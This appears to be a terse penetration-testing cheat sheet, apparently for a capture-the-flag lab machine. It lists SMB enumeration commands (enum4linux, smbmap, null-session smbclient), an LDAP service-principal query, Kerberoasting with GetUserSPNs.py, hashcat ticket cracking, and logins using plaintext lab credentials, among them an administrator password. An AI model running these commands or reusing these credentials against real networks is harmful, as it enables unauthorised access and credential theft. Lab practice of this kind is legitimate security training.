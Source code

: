 
PORT 445

```
enum4linux -a 10.10.10.100
```

```
smbmap -H 10.10.10.100
```

```
smbclient //10.10.10.100/Replication -U ""%""
```

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

```
smbmap -H 10.10.10.100 -r  -u dono -p password123
```

PORT Kerberus

```
ldapsearch -x -H ldap://192.168.56.10 -D "CN=Administrator,CN=Users,DC=cs,DC=org" -w Admin521@ -b "dc=cs,dc=org" "(servicePrincipalName=*)"
```


```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

```
hashcat -m 13100 -a 0 GetUserSPNs.out pass.txt --force  
```


```
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```


